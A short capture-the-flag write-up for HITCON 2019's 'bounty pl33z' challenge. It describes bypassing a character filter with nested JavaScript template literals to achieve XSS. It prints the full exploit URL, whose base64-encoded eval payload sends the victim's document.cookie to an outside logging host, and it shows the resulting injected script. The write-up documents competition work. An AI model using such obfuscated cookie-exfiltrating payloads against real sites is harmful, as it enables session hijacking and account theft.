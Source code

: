 2019 Hitcon CTF quals - bounty pl33z
====================================

https://ctf2019.hitcon.org/

Writeup by Tamás Hegedűs - !SpamAndHex


TL;DR
-----

Submitted an XSS that directly sent the cookie back to us.

```
http://3.114.5.202/fd.php?q=`,"%26%26eval(atob(`Imh0dHBzOi8vcmVxdWVzdGJ1Y2tldC5hcHBzcG90LmNvbS95P2M9IitlbmNvZGVVUklDb21wb25lbnQoZG9jdW1lbnQuY29va2llKQ`));(`${`
```


The challenge
-------------

It looks like there is some sso involved in the challenge, they even made me
read `@filedescriptor`s talk about xss+cookiebomb+oauth at
https://speakerdeck.com/filedescriptor/the-cookie-monster-in-your-browsers
.

Then I realized there are no real domains and services so started focusing on
the XSS part.

Certain chars like `'./\` were sanitized. Backticks and a single `"` was
allowed. That was enough to craft a payload that did the leak and resulted in
valid JavaScript. We used nested multiple template literals. The resulting JS
looked something like this after interpolation:

```
if (window.top == window.self) {
    window.self.location.href = "https://`,"&&eval(atob(`Imh0dHBzOi8vcmVxdWVzdGJ1Y2tldC5hcHBzcG90LmNvbS95P2M9IitlbmNvZGVVUklDb21wb25lbnQoZG9jdW1lbnQuY29va2llKQ`));(`${`.orange.ctf/oauth/authorize?client_id=1&scope=read&redirect_uri=https://twitter.com/orange_8361";
} else {
    var data = JSON.stringify({
        message: 'CTF.API.remote',
        data: {
            location: "https://`,"&&eval(atob(`Imh0dHBzOi8vcmVxdWVzdGJ1Y2tldC5hcHBzcG90LmNvbS95P2M9IitlbmNvZGVVUklDb21wb25lbnQoZG9jdW1lbnQuY29va2llKQ`));(`${`.orange.ctf/oauth/authorize?client_id=1&scope=read&redirect_uri=https://twitter.com/orange_8361"
        }
    });
    window.parent.postMessage(
        data, 
        "https://`,"&&eval(atob(`Imh0dHBzOi8vcmVxdWVzdGJ1Y2tldC5hcHBzcG90LmNvbS95P2M9IitlbmNvZGVVUklDb21wb25lbnQoZG9jdW1lbnQuY29va2llKQ`));(`${`.orange.ctf"
    );
}
```

